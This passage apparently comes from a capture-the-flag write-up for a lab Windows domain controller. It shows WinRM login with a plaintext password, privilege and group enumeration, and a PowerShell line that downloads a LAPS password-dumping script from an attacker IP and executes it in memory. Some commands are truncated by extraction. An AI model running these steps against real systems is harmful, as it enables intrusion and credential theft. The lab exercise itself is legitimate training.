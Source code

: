 ```powershell
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
We can use this credentials to access to the machine as the user svc_deploy:
```powershell
evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```
Now is time to enumerate this user's permissions:
```powershell
*Evil-WinRM* PS C:\Uwhoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

No special permissions, let's enumerate our groups:
```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/6/2023 9:25:55 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
Now this is interesting, we are part of a group called "LAPS_Readers"; a good search about that group could lead us to something interesting, a good article about [Dumping LAPS](https://www.hackingarticles.in/credential-dumpinglaps/) such article give us a reference to the [Get-LAPSPasswords.ps1](https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1)[^Get-LAPSPasswords] which is worth to check:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Get-LAPSPasswords.ps1')
```
Then by reading the exploit, we find that the Powershell module can be executed as follows:
```powershell
Hostname   : dc01.timelapse.htb
Stored     : 1
```

[^Get-LAPSPasswords]: Powershell Utility to read LAPS passwords
[^readlapspassword]: Python utility to read LAPS passwords
[^pfx-certificate]: PFX Certificate login
[^ldap-enumeration]: LDAP Enumeration
[^powershell-history]: Powershell History